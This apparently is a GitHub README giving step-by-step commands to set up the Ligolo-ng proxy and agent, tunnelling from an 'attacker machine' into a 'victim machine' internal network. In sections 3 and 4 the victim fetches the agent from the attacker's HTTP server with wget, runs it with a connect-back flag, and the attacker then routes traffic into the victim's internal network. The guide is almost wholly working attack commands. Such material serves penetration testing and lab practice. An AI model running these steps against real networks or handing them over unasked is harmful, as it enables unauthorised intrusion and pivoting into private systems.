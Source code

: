 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=30&duration=4000&pause=1&color=FFFFFF&multiline=true&width=485&height=80&lines=%E2%94%8C%E2%94%80%E2%94%80(ThisizAmen%E3%89%BFKaniber)-%5B%2F%5D;%E2%94%94%E2%94%80%23+Ligolo+Proxy+Setup)](https://git.io/typing-svg)

---

## Overview

This guide provides step-by-step instructions to set up Ligolo Proxy and Ligolo Agent for establishing a reverse proxy tunnel between an attacker machine and a victim machine. This setup allows for accessing internal network resources through the tunnel.

### Prerequisites

- Linux-based system
- Root privileges (or equivalent)
- Ligolo Proxy and Ligolo Agent executables

---

## 1. Download Ligolo Proxy and Agent

Before setting up the tunnel, you need to download the necessary executables:

- **Ligolo Proxy**: A tool for setting up the reverse proxy on the attacker machine.
- **Ligolo Agent**: A tool that runs on the victim machine to connect back to the attacker.

### Proxy Download:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

### Agent Download:
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

After downloading, unpack the `.tar.gz` files using:
```bash
tar -xzvf <filename>.tar.gz
```

---

## 2. Setup Ligolo Tunnel on the Attacker Machine

### Change the user from 'root' to your custom user (optional but recommended for security):
```bash
sudo ip tuntap add user <your_username> mode tun ligolo
```

### Delete any conflicting IP routes (if you're using VPN):
```bash
sudo ip route del 192.168.98.0/24 dev tun0
```

### Add the desired internal network range to the Ligolo tunnel:
```bash
sudo ip link set ligolo up
sudo ip route add 192.168.98.0/24 dev ligolo
```

### Start the Ligolo Proxy:
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```

---

## 3. Setup Ligolo Agent on the Victim Machine

### Download the Ligolo Agent from the Attacker Machine:

Ensure you have a Python HTTP server running on the attacker machine to serve the agent:
```bash
python3 -m http.server 8000
```

On the victim machine, download the agent:
```bash
wget http://<attacker_machine_ip>:8000/agent -P /opt/
```

### Make the Agent executable and run it:
```bash
chmod +x /opt/agent
/opt/agent -connect <attacker_machine_ip> -ignore-cert
```

---

## 4. Access the Internal Network (Attacker Machine)

Once the agent is running on the victim machine and connected back to the attacker, follow these steps to access the internal network:

1. Open the Ligolo menu:
```bash
session
```

2. Start the session:
```bash
start
```

---

## Conclusion

You have now successfully set up the Ligolo Proxy and Agent, allowing access to the internal network of the victim machine. You can now interact with the internal resources securely through the established tunnel.

---

### Tips & Troubleshooting

- If the connection is not working, ensure that both machines are on the same network or have reachable IPs.
- Check firewall rules if any traffic is being blocked.
- Ensure that the correct paths for executables are set in the commands.

